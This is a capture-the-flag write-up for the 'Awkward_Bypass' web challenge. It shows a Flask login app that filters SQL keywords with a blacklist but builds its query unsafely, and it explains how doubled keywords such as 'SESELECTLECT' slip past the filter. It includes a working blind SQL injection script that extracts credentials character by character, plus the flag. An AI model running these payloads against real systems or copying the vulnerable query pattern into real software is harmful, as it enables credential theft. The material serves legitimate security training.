




# Awkward_Bypass
## Description
This blacklist is so awkward, it will make you wonder if you know how to spell...

## Files
Provided source code

## Code
### `app.py`
```python
import re
import sqlite3
from flask import Flask, render_template, url_for, request, redirect, make_response

app = Flask(__name__)

blacklist = ["ABORT", "ACTION", "ADD", "AFTER", "ALL", "ALTER", "ALWAYS", "ANALYZE", "AND", "AS", "ASC", "ATTACH", "AUTOINCREMENT", "BEFORE", "BEGIN", "BETWEEN", "CASCADE", "CASE", "CAST", "CHECK", "COLLATE", "COLUMN", "COMMIT", "CONFLICT", "CONSTRAINT", "CREATE", "CROSS", "CURRENT", "CURRENT_DATE", "CURRENT_TIME", "CURRENT_TIMESTAMP", "DATABASE", "DEFAULT", "DEFERRABLE", "DEFERRED", "DELETE", "DESC", "DETACH", "DISTINCT", "DO", "DROP", "EACH", "ELSE", "END", "ESCAPE", "EXCEPT", "EXCLUDE", "EXCLUSIVE", "EXISTS", "EXPLAIN", "FAIL", "FILTER", "FIRST", "FOLLOWING", "FOR", "FOREIGN", "FROM", "FULL", "GENERATED", "GLOB", "GROUP", "GROUPS", "HAVING", "IF", "IGNORE", "IMMEDIATE", "IN", "INDEX", "INDEXED", "INITIALLY", "INNER", "INSERT", "INSTEAD", "INTERSECT", "INTO", "IS", "ISNULL", "JOIN", "KEY", "LAST", "LEFT", "LIKE", "LIMIT", "MATCH", "MATERIALIZED", "NATURAL", "NO", "NOT", "NOTHING", "NOTNULL", "NULL", "NULLS", "OF", "OFFSET", "ON", "OR", "ORDER", "OTHERS", "OUTER", "OVER", "PARTITION", "PLAN", "PRAGMA", "PRECEDING", "PRIMARY", "QUERY", "RAISE", "RANGE", "RECURSIVE", "REFERENCES", "REGEXP", "REINDEX", "RELEASE", "RENAME", "REPLACE", "RESTRICT", "RETURNING", "RIGHT", "ROLLBACK", "ROW", "ROWS", "SAVEPOINT", "SELECT", "SET", "TABLE", "TEMP", "TEMPORARY", "THEN", "TIES", "TO", "TRANSACTION", "TRIGGER", "UNBOUNDED", "UNION", "UNIQUE", "UPDATE", "USING", "VACUUM", "VALUES", "VIEW", "VIRTUAL", "WHEN", "WHERE", "WINDOW", "WITH", "WITHOUT"] 

def checkCreds(username, password):
	con = sqlite3.connect('database.db')
	cur = con.cursor()
	for n in blacklist:
		regex = re.compile(n, re.IGNORECASE)
		username = regex.sub("", username)
	for n in blacklist:
		regex = re.compile(n, re.IGNORECASE)
		password = regex.sub("", password)
	print(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")		
	try:
		content = cur.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'").fetchall()
	except:
		return False
	cur.close()
	con.close()
	if content == []:
		return False
	else:
		return True

@app.route('/')
def index():
	return render_template("index.html")

@app.route('/user', methods=['POST'])
def user():
	if request.method == 'POST': 
		username = request.values['username']
		password = request.values['password']
		if checkCreds(username, password) == True:
			return render_template("user.html")
		else:
			return "Error"
	else:
		return render_template("user.html")
```

## Methodology
It'a a simple webpage that asks for credentials.



Our creds are passed to the `checkCreds` method and on success displays `user.html` and on error `'Error'`. The creds are checked against `sqlite` database but before that the program `!!!deletes!!!` forbidden words from the input. The the 'clean' input is passed into the query. We can bypass the filtering logic by dividing our input words like this.

SESELECTLECT : is filtered into SELECT

FRFROMOM     : is filtered into FROM

and so on... we can construct a valid query.
To successfuly launch an SQLi attack we escape username in the query with a singlequote `'`. Sample query would look like this. We would want to get names of all the tables from the database.

`' OorR 1==1 UNUNIOONNIOONN SESELECTLECT name,NNullULL FRFROMOM sqlite_maasster;-- -`



result (user.html)


This approach works but we won't get data from the database. We only get `user.html` or error. This hints to be a `boolean-based sql injection`.

## Exploit
We have to exfiltrate db data byte by byte using `substr` operation in `sqlite`. This way we can iterate byte by byte over the strings in the table and get what we want. We will first check the first letter of the `username` column and iterate over the alphabet (or `string.printable`) to get a match. If it is a match we get `user.html` and if not we get `Error!`. We use this approach with every letter of the username and password column.

## Exploit code
```python
import requests
import string

db_data = ''
for pos in range(1, 100):
  for char in string.printable:
    # username
    p = "\\' OORR 1=1 AANDND (SESELECTLECT hex(substr(username," + str(pos) + ",1)) FRFROMOM users) = hex('" + str(char) + "')-- -"

    # password
    #p = "\\' OORR 1=1 AANDND (SESELECTLECT hex(substr(paassswoorrd," + str(pos) + ",1)) FRFROMOM users) = hex('" + str(char) + "')-- -"
    
    h = {'Content-Type': 'application/x-www-form-urlencoded'}
    d = {'username': p, 'password': 'pwn'}
    r = requests.post('https://awkward-bypass.chal.imaginaryctf.org/user', headers=h, data=d)
    
    # successful call
    if 'Ummmmmmm, did you expect a flag to be here?' in r.content.decode():
      db_data += str(char)
      print(db_data)
      break

print('Final: ' + db_data)
```

## Loot
Username



Password



## Flag
**ictf{n13_fil73r_byp@ss_7130676d}**